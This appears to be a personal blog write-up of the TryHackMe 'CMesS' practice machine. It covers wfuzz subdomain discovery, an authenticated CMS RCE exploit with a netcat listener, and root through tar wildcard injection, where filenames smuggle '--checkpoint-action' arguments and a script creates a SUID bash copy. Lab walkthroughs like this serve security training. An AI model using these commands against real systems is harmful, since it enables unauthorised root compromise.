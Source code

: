 ```yaml
---
title: /writeups/CMesS
layout: post
permalink: /writeups/CMesS
---
```

Writeup of THM Machine called <a href="https://tryhackme.com/r/room/cmess">"CMesS"</a>

The only interesting thing in the nmap scan is the port 80 so that'll be the place to start.

Unfortunately there's nothing interesting on the default page, and neither gives us dirbusting besides the /admin login portal.
However, after running wfuzz:
`wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://cmess.thm/" -H "Host: FUZZ.cmess.thm" --hl 107` (the `--hl 107` filters the results for us to exclude the 404s)
We can find interesting dev.cmess.thm.

<img src="/images/DevCmess.png" alt="dev.cmess.thm" />

And there obviously is email and password that we can use to login on /admin found earlier

After we login, the admin page greets us with the version of the CMS

<img src="/images/VersionCmess.png" alt="cmess version" />

Searchsploit tells us that there's an authenticated RCE for that exact version.
You can get the exploit [here](https://www.exploit-db.com/exploits/51569)

<img src="/images/ExploitCmess.png" alt="cmess exploit" />

The exploit obviously works and gives us a www-data shell (Remember to start the listener before running the exploit! `nc -lvnp <port>')

#PrivEsc

I think that the PrivEsc is actually the hardest part of this box. 
Running both Linpeas and LinEnum gives us 2 interesting findings.

The first one is the crontab

<img src="/images/LinPeasCmess.png" alt="cmess Crontab finding" />

We can clearly see that it's vulnerable to wildcard injection but we are not able to exploit it yet because we do not have acces to the `/home/andre/backup`

For some reason the LinPeas was extremly slow on this machine so I decided to run LinEnum, it gave me this:

<img src="/images/LinEnumCmess.png" alt="LinEnum finding" />

It turns out that this file contains the andre's password

<img src="/images/AndreCmess.png" alt="Andre passwd" />

Now, we've got every information needed to gain the root on this machine.
First, we ssh as andre:
`ssh andre@<ip>`
and provide the password found in the backup file.

Thanks to that, we have acces to `/home/andre/backup`, so let's cd there.
`cd /home/andre/backup`

Now we can proceed with the wildcard injection...
`nano shell.sh`
In the nano  we write:
```
#!/bin/bash
cp /bin/bash /tmp/bash; chmod +s /tmp/bash
```
Now, we have to create some files to make the cron execute our shell.sh
```
echo "" > "--checkpoint-action=exec=sh shell.sh"  
echo "" > --checkpoint=1
```
And now we wait.

After a minute we should see a SUID copy of bash in the /tmp directory.
To get the root we simply run it:
<img src="/images/RootCmess.png" alt="Root CMess" />

Thank you for reading

